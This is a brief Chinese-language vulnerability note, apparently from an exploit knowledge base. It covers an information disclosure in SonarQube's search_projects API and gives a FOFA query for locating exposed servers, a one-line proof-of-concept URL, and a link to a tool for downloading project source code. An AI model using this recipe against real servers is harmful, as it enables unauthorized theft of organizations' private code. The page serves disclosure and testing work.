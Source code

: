# SonarQube search_projects 项目信息泄露漏洞

## 漏洞描述

SonarQube 某接口存在信息泄露漏洞，可以通过工具下载源码

## 漏洞影响

<a-checkbox checked>SonarQube</a-checkbox></br>

## FOFA

<a-checkbox checked>app="sonarQube-代码管理"</a-checkbox></br>

## 漏洞复现

主页如下

![img](../../../.vuepress/public/img/1628578104263-4058ad67-3556-4948-bb84-80b780f6a808.png)



漏洞POC

```plain
http://xxx.xxx.xxx.xxx/api/components/search_projects
```

![img](../../../.vuepress/public/img/1628578139002-6ae5f685-2e56-488e-9bd8-ca7c17d40416.png)

可通过工具下载项目中的源代码 



https://github.com/deletescape/sloot

![img](../../../.vuepress/public/img/1628578178570-b0b44348-d38e-4988-975a-f7540c3871c1.png)